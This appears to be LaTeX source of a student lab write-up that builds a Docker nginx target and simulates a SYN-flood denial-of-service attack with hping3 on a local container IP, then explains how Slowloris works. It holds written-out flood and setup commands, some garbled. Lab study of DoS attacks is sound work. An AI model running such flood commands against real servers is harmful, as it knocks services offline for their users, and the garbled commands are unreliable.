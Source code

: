 \documentclass[conference]{IEEEtran}
\begin{document}
Webserver Configuration:
\begin{itemize}
\item  Base Image: nginx:latest
\item Ports: 80 (HTTP)
\item Now set up a custom  docker file with the following python script typed and saved inside it
\end{itemize}
\begin{figure}[htbp]
\hspace{0.7cm} 
\centerline{\texttt{[image: fig1.png]}}
\caption{Python script }
\label{fig}
\end{figure}

\begin{itemize}


\item Access the file with HPing3 code through terminal – important to use the right path to access the file with the code
\\
\item Builds the image using the following code  in the termial  :\textcolor{green}{docker build -t hping3-container }
\\
\item This command helps to  find the IP address of the webserver your attacking  using the container id in this case the container id is  af8377e8bc57 :\textcolor{green}{docker build -t hping3-containerdocker inspect -f '{{range .NetworkSettings.Networks}}{{.IP Address}}{{end}}' af8377e8bc57
\item  In this case our ip address is  \textcolor{green}{172.17.0.2}
 }
\end{itemize}

\begin{figure}[htbp]
\hspace{0.7cm} 
\centerline{\texttt{[image: Find the IP address of the webserver to attack.png]}}
\caption{Find the IP address of the webserver to attack}
\label{fig}
\end{figure}
\begin{itemize}
\item The container  is used  to simulate the attack using the following  command  in the terminal :\textcolor{green}{docker run --rm hping3-container -S --flood -p 80 172.17.0.2
}
\end{itemize}
\underline{\textbf{Slowloris}} 
\\
Slowloris is a DoS attack tool designed to keep many connections to the target web server open and hold them open as long as possible. It works by sending partial HTTP requests, none of which are completed. Slowloris attempts to keep the connection alive by sending subsequent headers at intervals, preventing the target server from closing the connections. This can lead to resource exhaustion, causing the server to be unable to process legitimate requests. 
\end{document}
